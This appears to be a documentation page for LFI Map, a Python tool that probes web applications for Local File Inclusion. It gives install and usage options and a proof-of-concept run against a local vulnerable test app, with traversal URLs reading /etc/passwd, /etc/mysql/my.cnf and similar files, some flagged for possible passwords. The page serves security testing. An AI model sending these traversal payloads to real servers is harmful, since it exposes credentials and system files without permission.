 Description

A Local File Inclusion attack consists of exploiting a non-protected script on the server to read the content of another file, that is not initially intended/allowed by the application. For more information on that topic, see this page.

LFI Map is a Python script (written by Augusto Pereyra) that challenges web applications against Local File Inclusions (LFI) attacks. It is based on a set of directories that are injected in detected paramaters. Among others, here are some of the tool's features:

    Export the results in a HTML file
    Find the root of the file system automatically
    Find default files (linux and windows)
    Send null bytes to bypass some controls
    Detect passwords in files
    Support basic authentication
    Support proxy
    Detect OS and send only test according the OS detected
    Hex-encode URLs

Installation

$ wget http://lfimap.googlecode.com/files/lfimap-1.4.8.tar.gz
$ tar xvzf lfimap-1.4.8.tar.gz

Usage
Syntax

$ python lfimap.py -t <target> [options]

Options

--target, -t <target>
    Target. E.g. http://www.test.com/ss.php?page=[LFI HERE]

--null, -n
    Put a null byte to bypass some controls

--user, -u <user>
    Is used to send username in basic authentication

--passw, -p <password>
    Is used to send password in basic authentication

--proxy, -w <proxy>
    Proxy support

--output, -o <file>
    Set Output file

--hexa, -x
    Encode the url to hexa

Examples
Example #1: PoC
Description

The following example is based on a specific vulnerable code (download it here) that doesn't properly check/sanitize user inputs and is hence vulnerable to LFI attacks. LFIMap has been tested against this application as a Proof of Concept.
Stdout

LFIMap has been called with following parameters:

$ python lfimap.py -t "http://127.0.0.1/poc/LFI/index.php?page=page2.txt" -o report.html

Here is the output on the screen:

 lfi detected in "page" parameter
--------------------------------------------------------------------
Made by Augusto Pereyra
Thanks to www.artsweb.com.ar
This code is distributed under GPL Licence
Detecting root path of site
--------------------------------------------------------------------

Going down 0 folder
Going down 1 folder
Going down 2 folder
Going down 3 folder
Going down 4 folder
Going down 5 folder
root path finded in: 
-------------------------------------------------------------
http://127.0.0.1/poc/LFI/index.php?page=../../../../../&
 The root of the File system was found 6 levels down
 This is a Linux System
-------------------------------------------------------------
2011-02-03 06:52:45.401371
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../proc/version&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/apache2/apache2.conf&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/mysql/my.cnf&
Possible password detected in this file
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/sysctl.conf&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/passwd&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/ts.conf&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/ca-certificates.conf&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/debconf.conf&
Possible password detected in this file
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/bash_completion.d/debconf&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/xdg/user-dirs.conf&
==============================================================
File Found: 
http://127.0.0.1/poc/LFI/index.php?page=../../../../../etc/gnome-vfs-2.0/modules/default-modules.conf&
(...TRUNCATED...)

Generated report

Here is an extract of the generated html report:

Lfimap-generated-report-1.png
Proof of Concept

By clicking on one of the links from the generated html report, here is the proof of concept. We can see that the application is vulnerable to LFI attacks.

Lfimap-poc-1.png 

